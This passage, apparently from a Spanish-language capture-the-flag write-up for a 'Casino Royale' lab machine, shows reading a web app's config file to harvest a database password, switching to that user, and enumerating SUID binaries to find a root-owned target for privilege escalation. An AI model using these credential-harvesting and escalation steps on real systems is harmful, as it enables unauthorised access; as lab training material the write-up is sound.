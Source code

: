 Listamos su contenido y encontramos credenciales de valenka

```bash
www-data@casino:/var/www/html/vip-client-portfolios$ cat config.inc.php 
<?php
self::$cfg['dbDebugMode'] = false;
self::$cfg['dbServer'] = 'localhost';
self::$cfg['dbUser'] = 'valenka';
self::$cfg['dbPass'] = '11archives11!';
self::$cfg['dbName'] = 'vip';
self::$cfg['dbTablePrefix'] = 'sfc_';
self::$cfg['activeTheme'] = 'default';
self::$cfg['defaultLanguage'] = 'en-us';
self::$cfg['cookiePrefix'] = 'sfc_';
self::$cfg['systemSalt'] = '7af76f2c2b0ddba579c42442ca264c45';
self::$cfg['domain'] = 'casino-royale.local';
self::$cfg['webFolder'] = '/vip-client-portfolios/';
```

Logramos migrar al usuario valenka con las credenciales obtenidas

```bash
www-data@casino:/var/www/html/vip-client-portfolios$ su valenka
Password: 
valenka@casino:/var/www/html/vip-client-portfolios$ whoami
valenka
```

### Escalada de Privilegios

* * *

Listando archivos del sistema con privilegios SUID localizamos un binario `mi6_detect_test` dentro de la carpeta `/opt/casino-royale`

```bash
valenka@casino:/$ find \-perm -4000 2>/dev/null
./opt/casino-royale/mi6_detect_test
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/xorg/Xorg.wrap
./usr/lib/openssh/ssh-keysign
./usr/lib/eject/dmcrypt-get-device
./usr/sbin/userhelper
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/chfn
./usr/bin/chsh
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec
./bin/su
./bin/ntfs-3g
./bin/ping
./bin/umount
./bin/mount
./bin/fusermount
valenka@casino:/$ ls -l /opt/casino-royale/
total 40
-rwxrw---- 1 le   www-data  210 Feb 20  2019 casino-data-collection.py
-rw------- 1 le   le         40 Feb 22  2019 closer2root.txt
-rw-r--r-- 1 root root       79 Feb 20  2019 collect.php
-rwxr-xr-x 1 root root      174 Feb 21  2019 index.html
-rwsr-sr-x 1 root root     8696 Feb 20  2019 mi6_detect_test
-rwxrwxr-x 1 le   le         54 Feb 20  2019 php-web-start.sh
-rwxr-x--- 1 le   le        402 Feb 20  2019 run.sh
-rwxrwxr-x 1 le   le         71 Feb 20  2019 user-data.log
```